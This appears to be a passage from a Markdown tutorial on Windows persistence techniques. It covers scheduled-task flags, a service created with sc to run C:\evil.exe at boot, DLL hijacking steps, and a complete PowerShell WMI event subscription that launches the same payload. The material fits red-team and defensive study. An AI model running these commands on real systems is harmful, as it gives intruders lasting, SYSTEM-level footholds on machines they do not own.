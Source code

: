 * `/tn` = Task name
* `/tr` = Target program
* `/sc onlogon` = Runs at logon
* `/ru SYSTEM` = Runs as SYSTEM

---

## 4. Windows Services

Attackers may create or modify **Windows services** to execute payloads.

### 🛠️ Example

```cmd
sc create EvilService binPath= "C:\evil.exe" start= auto
sc start EvilService
```

* `start= auto` → service runs automatically on boot.

Alternatively, hijacking an existing service’s `binPath` is also common.

---

## 5. DLL Hijacking

If a program loads DLLs insecurely, attackers can place a **malicious DLL** in the same folder.
On program execution, the malicious DLL loads instead of the legitimate one.

### 🛠️ Example Steps

1. Identify vulnerable application.
2. Craft malicious DLL (`evil.dll`).
3. Place it in the same directory as the executable.
4. When the app runs → malicious DLL is loaded.

---

## 6. WMI Event Subscriptions

Windows Management Instrumentation (WMI) allows **event-driven persistence**.

### 🛠️ Example (PowerShell)

```powershell
$filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{
  Name='EvilFilter'; EventNamespace='root\cimv2';
  QueryLanguage="WQL"; Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Hour=12"
}

$consumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{
  Name='EvilConsumer'; CommandLineTemplate="C:\evil.exe"
}

Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{
  Filter=$filter; Consumer=$consumer
}
```
